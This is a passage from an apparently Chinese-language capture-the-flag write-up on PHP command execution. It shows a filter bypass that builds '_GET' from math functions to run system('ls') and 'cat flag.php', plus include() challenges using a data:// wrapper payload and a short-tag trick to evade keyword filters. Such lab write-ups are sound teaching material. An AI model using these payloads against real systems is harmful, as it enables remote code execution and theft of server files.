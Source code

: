 在白名单中选择最短的pi当_GET参数 ,传入system ls

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=ls
#$pi=base_convert(37907361743,10,36)(dechex(1598506324)) = _GET
```

拿到文件名

![image-20250226001343878](assets/image-20250226001343878.png)

直接读取拿到flag：

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=cat flag.php
```

传入后页面只有`_GET`，需右键查看源码

特别解释一下，

![image-20250226001845697](assets/image-20250226001845697.png)

这部分会将所有匹配到的结果存储在 `$used_funcs` 数组中，就是用于匹配上面的白名单函数



### include命令执行

#### web37

将`eval($c)`改成了`include($c)`，意思为包含由用户输入的 $c 所指定的文件

payload:

```
?c=data://text/plain,<?php system("tac fla?.php");?>
```



#### web38

```
!preg_match("/flag|php|file/i", $c)
```

将`php``file`都过滤了，可以将上一题payload中的`<?php`改成`<?=`，叫做**短标签**

